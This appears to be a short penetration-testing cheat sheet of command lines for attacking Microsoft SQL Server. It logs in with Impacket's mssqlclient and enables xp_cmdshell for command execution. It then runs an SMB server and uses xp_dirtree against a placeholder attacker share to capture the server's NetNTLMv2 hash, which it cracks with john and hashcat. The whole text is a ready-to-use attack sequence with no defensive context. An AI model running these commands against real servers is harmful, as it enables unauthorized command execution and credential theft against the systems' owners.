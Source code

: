 ###### MSSQL Remote Client
`mssqlclient.py DOMAIN/User:'Password'@IP -windows-auth` #mssql 
`SQL> enable_xp_cmdshell` #sqlshell
`SQL> xp_cmdshell dir c:\` #comands #exec
`# mkdir share`
`# smbserver.py -smb2support share share/` #smbserver
`SQL> exec xp_dirtree '\\ATACKER\share',1,1` #steall #smb
`# john --show --format=netntlmv2 hash.txt --wordlist=rockyou.txt` #crack #hash
`# hashcat -m 5200 hash.txt rockyou.txt -O` #hashcat